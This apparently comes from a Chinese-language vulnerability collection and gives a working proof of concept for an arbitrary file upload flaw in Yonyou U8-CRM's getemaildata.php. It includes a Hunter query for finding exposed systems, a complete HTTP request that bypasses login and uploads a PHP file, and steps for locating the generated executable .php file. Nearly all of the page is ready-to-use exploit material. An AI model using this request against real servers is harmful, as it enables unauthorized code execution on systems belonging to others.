 ## 用友U8-CRM客户关系管理系统getemaildata.php任意文件上传漏洞

## hunter
```
app.name="用友 CRM"
```


## poc
```
POST /ajax/getemaildata.php?DontCheckLogin=1 HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykS5RKgl8t3nwInMQ
Content-Length: 517

------WebKitFormBoundarykS5RKgl8t3nwInMQ
Content-Disposition: form-data; name="file"; filename="test.php "
Content-Type: text/plain

<?php phpinfo();?>
------WebKitFormBoundarykS5RKgl8t3nwInMQ
```

![9147057345d2ec4f1d7c8318ddf36883](../../images/5b3752aa-824e-4d81-8fe6-5d61cd77dc17.png)

上传包中文件的名称后要添加一个空格，不然上传之后不会解析。

上传之后返回的路径为E:\\U8SOFT\\turbocrm70\\code\\www\\tmpfile\\，文件名称为mhtB356.tmp.mht；文件不解析，需要访问另一个文件（上传之后会在目录下生成两个文件一个tmp.mht文件和一个tmp.php文件），访问的解析文件格式为udp***.tmp.php，星号部分为返回的文件名的十六进制减去一，例如：B356——>45910(十六进制)，45909（十六进制减一）——>b355。

![0cb454248fb7425131ee976bfff161f2](../../images/77be2d85-2c4c-46a4-8a95-71d415b2aa1a.png)

## 漏洞来源
- https://mp.weixin.qq.com/s/iCkvHKl-QC5o3gj_t02tmg
